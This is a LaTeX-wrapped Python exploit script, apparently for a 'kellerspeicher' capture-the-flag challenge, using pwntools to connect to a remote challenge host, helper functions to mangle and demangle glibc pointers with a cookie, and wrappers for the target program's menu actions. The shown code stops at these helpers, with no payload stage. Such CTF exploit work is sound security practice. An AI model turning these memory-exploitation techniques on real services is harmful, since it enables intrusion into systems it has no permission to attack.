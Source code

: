 \documentclass[a4paper,11pt]{article}
\begin{document}
\section{Exploit Code}
\begin{lstlisting}[language=Python]
import pwn
import struct
from enum import Enum

#p = pwn.process('./main-dbg')
#p = pwn.remote('127.0.0.1', 1024, fam='ipv4')
p = pwn.remote("81a2ff6ee0881646b872c485-1024-kellerspeicher.challenge.cscg.live" ,1337, ssl=True,fam = 'ipv4')


def rol(value, bits, width=64):
    return ((value << bits) | (value >> (width - bits))) & (2**width - 1)

def ror(value, bits, width=64):
    return ((value >> bits) | (value << (width - bits))) & (2**width - 1)


def ptr_demangle(ptr_enc, cookie): 
    return ror(ptr_enc, 0x11) ^ cookie 

def ptr_mangle(ptr, cookie):
    return rol(ptr ^ cookie, 0x11)

class Keller(Enum):
    HK = 1
    NK = 2

def choose(opt: int|str|bytes):
    p.recvuntil(b':')
    if type(opt) != bytes:
        opt = f'{opt}'.encode()
    p.sendline(opt)

def new_keller(size: int, keller_type) -> Keller:
    if keller_type == Keller.HK:
        choose(1)
    elif keller_type == Keller.NK:
        choose(2)
    choose(size)
    return keller_type

def einkellern(i: int, keller_type):
    if i > 0xff:
        raise ValueError('cant store values greater than 0xff')
    if keller_type == Keller.HK:
        choose(5)
    elif keller_type == Keller.NK:
        choose(6)
    choose(hex(i)[2:])

def einkellern_bytes(b: bytes, keller_type):
    for c in b:
        einkellern(c, keller_type)

def auskellern(keller_type) -> int:
    if keller_type == Keller.HK:
        choose(7)
    elif keller_type == Keller.NK:
        choose(8)
    try:
        l = p.recvline().strip()
        print(l)
        val = int(l.split(b' ')[1], 16)
    except (ValueError, IndexError) as e:
        val = -1
    return val

def abriss(keller_type):
    if keller_type == Keller.HK:
        choose(3)
    elif keller_type == Keller.NK:
        choose(4)

def unterkellern(keller_type):
    if keller_type == Keller.HK:
        choose(11)
    elif keller_type == Keller.NK:
        raise ValueError('Cannot unterkeller the Nebenkeller')


\end{lstlisting}
\end{document}
